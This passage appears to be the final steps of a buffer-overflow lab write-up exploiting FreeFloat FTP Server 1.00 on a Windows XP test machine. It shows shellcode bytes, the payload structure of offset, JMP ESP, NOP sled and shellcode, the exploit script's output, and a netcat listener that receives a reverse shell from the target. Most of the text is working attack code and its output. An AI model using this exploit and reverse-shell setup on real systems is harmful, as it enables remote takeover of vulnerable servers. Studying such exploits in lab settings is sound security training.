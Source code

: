 ```bash
shellcode += b"\x48\x17\xf2\x66\xe1\xb2\x09\xe1\xce\xeb\x33"
shellcode += b"\x7b\xa6\xe9\x33\x5c\x38\x67\xd5\xc8\x56\x21"
shellcode += b"\x4e\x65\xce\x68\x04\x14\x0f\xa7\x61\x16\x9b"
shellcode += b"\x44\x96\xd9\x6c\x20\x84\x8e\x9c\x7f\xf6\x19"
shellcode += b"\xa2\x55\x9e\xc6\x31\x32\x5e\x80\x29\xed\x09"
shellcode += b"\xc5\x9c\xe4\xdf\xfb\x87\x5e\xfd\x01\x51\x98"
shellcode += b"\x45\xde\xa2\x27\x44\x93\x9f\x03\x56\x6d\x1f"
shellcode += b"\x08\x02\x21\x76\xc6\xfc\x87\x20\xa8\x56\x5e"
shellcode += b"\x9e\x62\x3e\x27\xec\xb4\x38\x28\x39\x43\xa4"
shellcode += b"\x99\x94\x12\xdb\x16\x71\x93\xa4\x4a\xe1\x5c"
shellcode += b"\x7f\xcf\x01\xbf\x55\x3a\xaa\x66\x3c\x87\xb7"
shellcode += b"\x98\xeb\xc4\xc1\x1a\x19\xb5\x35\x02\x68\xb0"
shellcode += b"\x72\x84\x81\xc8\xeb\x61\xa5\x7f\x0b\xa0"
```
Note the usage of EXITFUNC to avoid a server crash.  

Exploit is constructed as [OFFSET][JUMP ESP][NOPSLED][SHELLCODE] as seen below.
```python
payload = 'A' * 230 + jmpesp + '\x90' * 32 + shellcode
```

### 5. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ ./exploit.py                                                                                                                                                       
[+] Opening connection to 192.168.34.148 on port 21: Done
[*] 220 FreeFloat Ftp Server (Version 1.00).
[*] 331 Password required for AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'��w���������������������������������պ��\x10�t$�]1ɱR���1U\x13���vp5    �\x15\xbf\xbd�\x15\xbf\xbde襯+\x05�ߞ#*�\x17\xbf\xbd
    ߨ�m~+���\x12��So5�
    ���9�0�rW1m�V\x10X�Í9���\x04\xbf\xbdP �D�x����\x0e\xbf\xbd:r�2�����J\x16\\x18\xbf\xbd�\�WvR�
    �w=�k����\x05\xbf\xbd�\x1fV}\x069�X��&\x13�Z~V7W��_���Z���D\ڣ1�%LB��\x18s� ������B�\x0e\xbf\xbd"\x17\xbf\xbdɬH\x17\xbf\xbdf�    ���3{��3\8g��V!Ne�h\x04\x0f\xbf\xbda\x16\xbf\xbdD��l ���\x7f�\x19\xbf\xbdU��12^�)�    Ŝ����^�Q�Eޢ'D��\x03m\x1f!v��� �V^�b>'�8(9C���\x12\xbf\xbd\x16��J�\\x7f��U:�f<������\x1a�5h�r����a�\x7f
    �.
```
Get a shell.
```shell
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                                                                                                                                                                                                                                    1 ⨯
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1056
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.148
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```